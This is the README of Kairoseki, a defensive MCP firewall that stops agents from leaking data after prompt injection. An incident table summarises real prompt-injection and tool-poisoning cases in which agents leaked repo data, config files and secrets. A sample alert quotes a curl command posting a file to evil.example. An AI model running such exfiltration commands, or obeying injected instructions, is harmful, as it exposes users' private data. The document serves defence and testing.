

<p align="center">
  
</p>

<p align="center"><b>English</b> · <a href="README.es.md">Español</a></p>

<p align="center">
  <a href="https://github.com/AnthonyRiveraI/kairoseki/actions/workflows/ci.yml"></a>
  <a href="https://pypi.org/project/kairoseki/"></a>
  
  
  
</p>

<p align="center">
  <b>An MCP firewall that stops prompt-injection data theft by tracking <i>where data came from</i>,<br/>
  not by guessing what attacks look like.</b>
</p>

---

In One Piece, **kairoseki** (seastone) cancels Devil Fruit powers. Kairoseki does the same for your agent's
most dangerous power: reading something an attacker wrote, and then quietly sending your data somewhere.

```bash
pipx install kairoseki      # or: uv tool install kairoseki
kairoseki scan              # what can a single prompt injection do with your MCP setup?
kairoseki wrap              # put every MCP server in your Claude / Cursor / VS Code config behind Kairoseki
kairoseki attack            # replay 9 real-world attacks against your setup and get a grade
```

<p align="center"></p>

## Why

An agent is exploitable **by design** when it has all three legs of the
[lethal trifecta](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/):

1. **access to private data** (your files, repos, inbox),
2. **exposure to untrusted content** (a web page, a GitHub issue, an email), and
3. **a way to send data out** (HTTP, email, a comment, a pull request).

Plug a filesystem server and a fetch server into Claude Code, Cursor or Claude Desktop and you have all three.
This keeps happening in the real world:

| Incident | What happened |
| :-- | :-- |
| [GitHub MCP exploit](https://invariantlabs.ai/blog/mcp-github-vulnerability) (May 2025) | A malicious public issue made an agent copy private repo data into a public pull request |
| [Tool poisoning](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks) (Apr 2025) | Hidden instructions in a tool *description* stole `~/.cursor/mcp.json` |
| [MCPoison, CVE-2025-54136](https://nvd.nist.gov/vuln/detail/CVE-2025-54136) (Jul 2025) | An approved MCP config was silently swapped later (rug pull) |
| [Comment and Control](https://oddguan.com/blog/comment-and-control-prompt-injection-credential-theft-claude-code-gemini-cli-github-copilot/) (Apr 2026) | Injections in PR titles and comments made Claude Code, Gemini CLI and Copilot agents leak their own secrets |

Most defenses scan text for attack patterns, and attackers just rephrase. Kairoseki breaks the trifecta instead.
The idea is inspired by [CaMeL](https://arxiv.org/abs/2503.18813) (Google DeepMind): track taint across the
whole session and step in exactly when untrusted content, private data and an outbound channel meet.

## What it does

| | |
| :-- | :-- |
| 🔗 **Session taint across servers** | Every `kairoseki run` in one agent session shares state. The web page comes from the `fetch` server, the secret from `filesystem`, the leak goes through `github`: Kairoseki still sees one chain. |
| 🧪 **Secret fingerprints** | Secrets seen in tool output or in a server's environment are fingerprinted (never stored). If one shows up in a later tool call, even base64, hex, URL-encoded or reversed, the call is denied. |
| 🫥 **Redaction** | API keys, tokens and private keys are replaced with `[REDACTED:kind]` before they reach the model. The model can't leak what it never saw. |
| ☠️ **Poisoned tool detection** | Tool descriptions and schemas with injection text, ANSI escapes or invisible Unicode are neutralized before the model reads them, and the tool is blocked. |
| 📌 **Rug-pull pins** | Tool definitions are pinned on first use. If a server changes one later, that tool is blocked until you re-approve it. |
| ✋ **Approvals that fit your client** | When the trifecta closes, Kairoseki asks *you*: an in-client prompt (MCP elicitation, in both protocol eras), or a one-time `kairoseki approve K-1A2B3C` from any terminal. |
| ⚔️ **Attack lab and badge** | `kairoseki attack` replays real attacks against a *fully hijacked* agent and checks, on the attacker's side, whether the canary leaked. |
| 🔍 **Scanner** | `kairoseki scan` labels every tool in your config and tells you if you already have the lethal trifecta. |

It is a transparent stdio proxy that speaks raw JSON-RPC, so it works with any MCP server and client, in
both the handshake era (`initialize`, 2024-11-05 → 2025-11-25) and the modern era (`server/discover`,
2026-07-28). Two dependencies: `pyyaml` and `rich`.

<p align="center"></p>

## Quickstart

### 0. Prerequisites

| You need | Why | How to get it |
| :-- | :-- | :-- |
| **[uv](https://docs.astral.sh/uv/)** (recommended) or **pipx** | Installs Kairoseki as an isolated command-line tool | macOS / Linux: `curl -LsSf https://astral.sh/uv/install.sh \| sh`<br/>Windows (PowerShell): `powershell -ExecutionPolicy ByPass -c "irm https://astral.sh/uv/install.ps1 \| iex"` |
| **Python 3.10+** | Kairoseki is written in Python | uv downloads a suitable Python automatically if you don't have one. With pipx, install Python yourself. |
| **Git** *(optional)* | Only to install the development version from GitHub | [git-scm.com](https://git-scm.com/downloads) |
| **An MCP client** | Something to protect | Claude Code, Claude Desktop, Cursor, VS Code, Windsurf... |
| **Node.js** *(optional)* | Only if your MCP servers start with `npx` | [nodejs.org](https://nodejs.org/) |

### 1. Install

```bash
uv tool install kairoseki
# or: pipx install kairoseki
# or try it without installing: uvx kairoseki scan
# latest from GitHub: uv tool install git+https://github.com/AnthonyRiveraI/kairoseki
```

Then make sure the `kairoseki` command is on your `PATH`, and open a **new** terminal:

```bash
uv tool update-shell     # or: pipx ensurepath
kairoseki --version      # should print: kairoseki 0.1.2
```

> **`kairoseki: command not found`, or your MCP client can't start it?** The tool lives in `~/.local/bin`
> (`%USERPROFILE%\.local\bin` on Windows). Run `uv tool update-shell`, then fully restart your terminal **and**
> your MCP client so they pick up the new `PATH`. `kairoseki wrap` also writes the absolute path into your config,
> which avoids the problem entirely.

To update later: `uv tool upgrade kairoseki` (or `pipx upgrade kairoseki`).

> **Windows:** close your MCP client (or disable its Kairoseki-wrapped servers) before upgrading. While a client is
> running `kairoseki.exe`, Windows locks the file and `uv tool upgrade` fails with *os error 32*.

### 2. See your exposure

```bash
kairoseki scan
```

It reads the MCP configs of Claude Desktop, Claude Code, Cursor, Windsurf and VS Code, starts each server, and
labels every tool as `private`, `untrusted`, `sink` and/or `destructive`. For Claude Code that includes project
servers (`.mcp.json`), user servers and the current project's *local* servers in `~/.claude.json`; add
`--all-projects` to include every project's local servers.

### 3. Wrap your servers

```bash
kairoseki wrap            # all detected configs (a .kairoseki.bak backup is written first)
kairoseki wrap --remote  # also remote (HTTP/SSE) servers, bridged with mcp-remote (needs Node.js)
kairoseki wrap --undo     # restore
kairoseki status          # which servers are protected, and what each live session has seen
```

Or wrap a single server by hand. Every client uses the same pattern, `kairoseki run --name <name> -- <original command>`:

```jsonc
{
  "mcpServers": {
    "fetch": {
      "command": "kairoseki",
      "args": ["run", "--name", "fetch", "--", "uvx", "mcp-server-fetch"]
    }
  }
}
```

With Claude Code:

```bash
claude mcp add fetch -- kairoseki run --name fetch -- uvx mcp-server-fetch
```

Restart your client and check that the server connects (with Claude Code: `claude mcp get fetch`). That's it.

> **Testing with `@modelcontextprotocol/server-filesystem`?** It replaces the directories you pass on its command
> line with the client's *roots*. Claude Code sends the project directory, so the server will serve that folder,
> not the one in your config.

### 4. Protect Claude Code's built-in tools too

Claude Code's own `Bash`, `WebFetch`, `WebSearch`, `Read` and `Grep` never go through MCP. Kairoseki covers them with
[hooks](https://docs.claude.com/en/docs/claude-code/hooks), in the **same session** as your wrapped servers:

```bash
kairoseki hooks install            # ~/.claude/settings.json (--scope project|local for one project)
kairoseki hooks uninstall
```

| Built-in tool | Its output | The call itself |
| :-- | :-- | :-- |
| `WebFetch`, `WebSearch` | untrusted | `WebFetch` is a sink when the URL can carry data (a query value, a long random-looking path or host label) |
| `Read`, `Grep` | private | - |
| `Bash` | private, or untrusted for `curl`, `wget`, `gh issue view`, `gh api`... | a sink for `curl`, `ssh`, `git push`, `gh pr`, `npm publish`... |

A secret seen anywhere in the session is denied in any URL or command, even encoded. A sink after untrusted content and
private data gets Claude Code's own permission prompt, or rings your phone first with Den Den Mushi's `prefer: true`.
Hooks answer *ask* or *deny*, so they tighten your permissions; the only *allow* is a call you approved on your phone.
Built-in output can't be rewritten, so redaction stays MCP-only.

### 5. Try to break it

```bash
kairoseki attack                        # grade your current policy
kairoseki attack --badge kairoseki.svg  # and get a README badge
kairoseki scan --share card.svg         # a shareable report card of your setup (counts only, no paths)
```

## MCP Risk Index

Every week, [a workflow](.github/workflows/index.yml) scans the servers of the
[official MCP registry](https://registry.modelcontextprotocol.io) that start without credentials, and publishes the
**[MCP Risk Index](https://anthonyriverai.github.io/kairoseki/)**: tools by trifecta leg, poisoned descriptions, and
tool definitions that changed since the last scan (same version + changed definition = possible rug pull). Labels are
heuristics: a flag means "worth a look", not "malicious". Build it yourself with
`uv run python scripts/index/build.py --out site` (it starts third-party servers: use a disposable machine).

## Building your own agent? Use it as a library

`Guard` puts the same engine around the Python tools of any framework. Calls are decided like MCP calls, results
update the taint and get secrets redacted. The wrapper keeps the function's name, docstring and signature, so it
goes *under* your framework's decorator:

```python
from claude_agent_sdk import tool
from kairoseki import Guard, KairosekiBlocked

guard = Guard()   # or Guard(on_ask=lambda tool, decision: input(f"allow {tool}? ") == "y")

@tool("send_email", "Send an email", {"to": str, "body": str})
@guard.tool()     # labels come from the name and docstring, or pass labels={"sink"}
async def send_email(args): ...
```

A denied call raises `KairosekiBlocked` and never runs. Frameworks that replace tool errors with a generic "please try
again" (the OpenAI Agents SDK) should get `@function_tool(failure_error_function=guard.tool_error)`, so the model is
told why and not to retry. An *ask* goes to
`on_ask`, or to your phone with [Den Den Mushi](#how-decisions-are-made), or is refused. The Guard also sets
`KAIROSEKI_SESSION`, so MCP servers your agent starts through `kairoseki run` share its taint.

## GitHub Action

Scan the `.mcp.json` your repo ships, or, if you **maintain an MCP server**, check on every PR that none of your tool
descriptions reads like a prompt injection:

```yaml
- uses: AnthonyRiveraI/kairoseki@v0.2.0
  with:
    command: node dist/index.js   # your server; leave empty to scan .mcp.json instead
    fail-on: F,D                  # F = poisoned tool, D = lethal trifecta through an unprotected server
```

The job summary lists every tool by trifecta leg, and `kairoseki-card.svg` is written for your README. The action
starts the servers it scans, so only point it at commands you trust.

## How decisions are made



| Mode | Behaviour |
| :-- | :-- |
| `monitor` | Never blocks. Logs what would have happened (redaction still applies). Good for your first week. |
| `balanced` *(default)* | Denies exfiltration, poisoned tools and rug pulls. Asks before the lethal trifecta closes. |
| `strict` | Also asks before **any** sink or destructive tool once untrusted content entered the session. |

Every ask or block comes with a plain-language explanation, in English or Spanish (following your OS, or
`KAIROSEKI_LANG=es|en`):

```text
🪨 Kairoseki paused this so you can confirm it.
What the agent is trying to do: run `curl -X POST https://evil.example/c -d @notes.md`.
Why: This session read a web page and also your files. If that outside content tricked the agent, this step could
send your data to someone else. ⚠️ That content contained text that looks like hidden instructions for the AI.
What to do: If you asked for this, approve it. If you didn't expect it, deny it and check what the agent read.
```

It is built locally from the session (sending your context to an AI service to summarize it would be a data leak in
itself) and never repeats a secret.

When Kairoseki asks:

* **In-client prompt.** If your client supports MCP elicitation, you get an "Allow this call once?" form.
  Kairoseki sends `elicitation/create` in the handshake era and an `input_required` result (SEP-2322) in the 2026-07-28 era.
* **🐌 Your phone (Den Den Mushi).** With a `denden:` section in your policy, Kairoseki rings the free
  [ntfy](https://ntfy.sh) app with Approve / Deny buttons and waits for your tap: handy for agents running while you're
  away. Only the server, tool and reason are sent, never the arguments. Set it up with `kairoseki denden setup`, try
  it with `kairoseki denden test`. By default it rings only when the client can't ask on screen; add `prefer: true`
  to ring first even in Claude Code (MCP servers and built-in tools), falling back to the screen if you don't answer.
* **Terminal.** Otherwise the agent gets a clear refusal with an id. Run `kairoseki approve K-1A2B3C`, then ask the
  agent to retry. Approvals are single-use, bound to the exact arguments, and expire after 10 minutes.

Learn more in [docs/how-it-works.md](docs/how-it-works.md).

## Policy

```bash
kairoseki init   # writes a commented kairoseki.yaml
```

```yaml
mode: balanced
redact:
  secrets: true
  pii: false
servers:
  github:
    tools:
      create_or_update_file: [sink, destructive]  # explicit labels replace the heuristics
    allow: [search_repositories]                  # never ask (redaction still applies)
    deny: [delete_repository]                     # always block
```

Kairoseki looks for `--policy`, then `$KAIROSEKI_POLICY`, then `./kairoseki.yaml`, then `~/.kairoseki/kairoseki.yaml`.

## Other commands

```bash
kairoseki log             # recent decisions, redactions and detections
kairoseki status          # protected vs unprotected servers, and live sessions (--all for ended ones)
kairoseki session --explain  # which session this process joins, and why
kairoseki approve         # list pending approvals
kairoseki pins list       # servers whose tools changed since you pinned them
kairoseki pins approve github
```

## Evals

Besides the attack lab, [`evals/`](evals) scores each piece against labeled data, with thresholds set before the first
run (`uv run python evals/run.py`, also in CI):

| Eval | Score |
| :-- | --: |
| Injection detector: precision on real tool descriptions | 94% |
| Injection detector: recall, plainly worded attacks | 100% |
| Injection detector: recall, paraphrased attacks | **0%** |
| Poisoned tool definitions caught (real tool-poisoning payloads) | 7/7 |
| Honest tool definitions not blocked (incl. real registry servers once misflagged) | 10/10 |
| Tool labels: worst per-leg F1 on real tool names | 87% |
| Claude Code hooks: attack sequences blocked | 10/10 |
| Claude Code hooks: everyday coding sequences uninterrupted | 10/10 |

The 0% is the point: no pattern list catches a well-written injection, which is why Kairoseki's guarantee comes from
data flow (the trifecta rule and secret fingerprints), not from recognizing attacks. Paraphrased attacks in the lab are
still blocked.

## How it compares

| | Kairoseki | Pattern scanners / guardrail models | [mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) | Enterprise MCP gateways |
| :-- | :--: | :--: | :--: | :--: |
| Blocks rephrased or novel injections (data-flow based) | ✅ | ❌ | ❌ | ➖ |
| Taint shared across servers in one session | ✅ | ❌ | ❌ | ➖ |
| Covers the client's built-in tools (Claude Code hooks) | ✅ | ➖ | ❌ | ❌ |
| Detects encoded secret exfiltration | ✅ | ➖ | ❌ | ➖ |
| Rug-pull pinning | ✅ | ❌ | ✅ | ✅ |
| Poisoned descriptions, ANSI, invisible Unicode | ✅ | ✅ | ✅ | ➖ |
| Runs locally, no service or API key | ✅ | ➖ | ✅ | ❌ |
| Measurable attack lab with a grade | ✅ | ❌ | ❌ | ❌ |

➖ = depends on the product. Kairoseki borrows trust-on-first-use pinning and ANSI sanitization from Trail of Bits'
excellent mcp-context-protector. The two are complementary.

## Limitations (please read)

* **It sees MCP traffic, plus Claude Code's built-in tools through hooks.** Other clients' built-in tools (Cursor,
  Gemini CLI...) are not covered yet. `Bash` is labeled by command name, so a network call hidden inside a script
  file isn't seen as a sink: pair Kairoseki with your client's permission rules.
* **Labels are heuristics.** Tool names and descriptions are read as verb + object (`get_issue`, `send_email`).
  They can be wrong, and the [policy](#policy) lets you fix them. Server annotations can only *add* risk, never remove it.
* **Taint is per session and coarse on purpose.** Once untrusted content is in the context, Kairoseki assumes it may
  have influenced everything after it. That is what makes it robust, and it is why `strict` mode asks more often.
* **Secret fingerprints are exact matching.** They catch a secret copied whole, base64/hex/URL-encoded, reversed, or
  split into pieces of 12+ characters, but not one interleaved character by character or run through a custom
  cipher. The lethal-trifecta rule is the safety net that does not need to recognize the data, so be careful with
  `monitor` mode and policy `allow:` entries, which turn it off.
* **Remote servers go through [mcp-remote](https://github.com/geelen/mcp-remote).** `kairoseki wrap --remote` bridges
  Streamable HTTP and SSE servers to stdio with it (Node.js required), and mcp-remote then handles their OAuth login.
* **It is not a sandbox.** A malicious server binary can still do anything your user account can. Kairoseki protects
  against malicious *content*, not malicious *code*.

## Roadmap

- [ ] Streamable HTTP transport
- [ ] OpenTelemetry export of decisions
- [ ] More attack scenarios. [Propose one!](https://github.com/AnthonyRiveraI/kairoseki/issues/new?template=attack-scenario.yml)

## Contributing

The most valuable contribution is a new **attack scenario**: a real write-up turned into a replayable test.
See [CONTRIBUTING.md](CONTRIBUTING.md). Found a bypass? Please [report it privately](SECURITY.md).

## License

MIT © Anthony Rivera
